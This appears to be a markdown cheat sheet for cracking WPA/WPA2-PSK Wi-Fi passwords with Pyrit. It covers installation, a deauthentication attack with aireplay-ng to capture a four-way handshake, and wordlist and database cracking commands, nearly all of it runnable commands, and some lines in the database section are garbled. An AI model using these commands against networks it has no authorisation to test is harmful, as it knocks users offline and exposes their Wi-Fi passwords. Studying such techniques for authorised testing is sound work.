



# Pyrit Attack (WPA/WPA2)

A GPGPU-driven WPA/WPA2-PSK key cracker

Pyrit exploits the computational power of many-core- and GPGPU-platforms to create massive databases, pre-computing part of the WPA/WPA2-PSK authentication phase in a space-time tradeoff. It is a powerful attack against one of the world's most used security-protocols

## Installation

Pyrit is no longer installed on Kali by default. Also `apt install pyrit -y` does not work. Pyrit still uses Python2. One must do all of this to work:

```bash
cd
sudo apt update -y
sudo apt install git python2-dev libssl-dev libpcap-dev -y
git clone https://github.com/JPaulMora/Pyrit.git --depth=1
sed -i "s/COMPILE_AESNI/COMPILE_AESNIX/" Pyrit/cpyrit/_cpyrit_cpu.c
cd Pyrit
python2 setup.py clean
python2 setup.py build
sudo python2 setup.py install
wget https://codeload.github.com/secdev/scapy/zip/v2.3.2 -O /tmp/scapy.zip
cd /tmp
unzip scapy.zip
cd scapy-2.3.2
sudo python2 ./setup.py install
cd ..
pyrit -h
pyrit list_cores
```

## Commands

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

# Stop airodump-ng when it appears
qq
```
## Check Fourway Handshake

```bash
pyrit -r $PCAP analyze
```


## Strip Unneeded Data

```bash
pyrit -r $PCAP -o $TAG-stripped.cap strip
```


## Using a Wordlist

```bash
# Unstripped
pyrit -r $PCAP -i $WORDLIST -b $BSSID attack_passthrough
# OR Stripped
pyrit -r $TAG-stripped.cap -i $WORDLIST -b $BSSID attack_passthrough
```


## Using a Database

```bash
# Crack the secret in database mode
pyrit -i $WORDLIST import_passwords
password in pyrit with database mode
pyrit -e <ESSID> create_essid
point to the pyrit database
pyrit batch
pyrit -r $CAPTURE -b $BSSID attack_db
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [GoLinuxCloud Install on Kali](https://www.golinuxcloud.com/install-pyrit-in-kali-linux/)
* [Pyrit GitHub](https://github.com/JPaulMora/Pyrit)
* [Null Byte](https://null-byte.wonderhowto.com/how-to/crack-wpa-wpa2-wi-fi-passwords-with-pyrit-0196782/)
